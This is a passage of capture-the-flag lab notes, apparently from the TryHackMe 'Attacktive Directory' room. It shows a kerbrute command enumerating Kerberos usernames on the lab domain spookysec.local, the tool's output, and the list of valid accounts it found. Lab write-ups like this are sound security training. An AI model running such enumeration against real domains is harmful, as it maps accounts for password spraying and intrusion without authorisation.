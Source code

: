 
running [[../../../Tools n Info/10 - AD/kerbrute|kerbrute]] just to test it:

```sh
┌──(kali㉿proxli)-[~/boxes/thm/attacktive]
└─$ ~/tools/kerbrute userenum -d spookysec.local --dc 10.10.229.142 userlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 07/04/25 - Ronnie Flathers @ropnop

2025/07/04 19:19:37 >  Using KDC(s):
2025/07/04 19:19:37 >   10.10.229.142:88

2025/07/04 19:19:37 >  [+] VALID USERNAME:       james@spookysec.local
2025/07/04 19:19:38 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       James@spookysec.local
2025/07/04 19:19:39 >  [+] VALID USERNAME:       robin@spookysec.local
2025/07/04 19:19:43 >  [+] VALID USERNAME:       darkstar@spookysec.local
2025/07/04 19:19:45 >  [+] VALID USERNAME:       administrator@spookysec.local
2025/07/04 19:19:49 >  [+] VALID USERNAME:       backup@spookysec.local
2025/07/04 19:19:51 >  [+] VALID USERNAME:       paradox@spookysec.local
2025/07/04 19:20:03 >  [+] VALID USERNAME:       JAMES@spookysec.local
2025/07/04 19:20:08 >  [+] VALID USERNAME:       Robin@spookysec.local
2025/07/04 19:20:32 >  [+] VALID USERNAME:       Administrator@spookysec.local
2025/07/04 19:21:21 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2025/07/04 19:21:37 >  [+] VALID USERNAME:       Paradox@spookysec.local
2025/07/04 19:22:30 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2025/07/04 19:22:45 >  [+] VALID USERNAME:       ori@spookysec.local
2025/07/04 19:23:18 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2025/07/04 19:25:13 >  Done! Tested 73317 usernames (16 valid) in 336.514 seconds
```

much quicker to run through the brute force list!

james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local
ori@spookysec.local
